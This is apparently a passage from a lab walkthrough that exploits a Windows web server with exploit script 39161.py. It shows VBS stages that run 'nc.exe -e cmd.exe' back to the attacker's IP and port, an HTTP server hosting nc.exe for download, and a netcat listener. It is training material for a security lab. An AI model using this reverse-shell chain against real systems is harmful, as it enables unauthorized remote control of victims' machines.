 The content of vbs2:

```
cscript.exe C:\Users\Public\script.vbs
```

The content of vbs3:

```
C:\Users\Public\nc.exe -e cmd.exe "+ip_addr+" "+local_port
```

```
root@attackdefense:~/Desktop# vim 39161.py
```

```
	ip_addr = "10.10.16.3" #local IP address
	local_port = "1234" # Local Port number
```

```
root@attackdefense:~# cd Desktop/
root@attackdefense:~/Desktop# cp /usr/share/windows-resources/binaries/nc.exe .
root@attackdefense:~/Desktop# ls
 39161.py  'Copy-Paste README'	 README   lxqt-config-monitor.desktop   lxterminal.desktop   nc.exe   target   tools   wireshark.desktop   wordlists
root@attackdefense:~/Desktop# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...



```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234


```

![微信图片_20230410224804.png](/img/in-post/ine/微信图片_20230410224804.png)

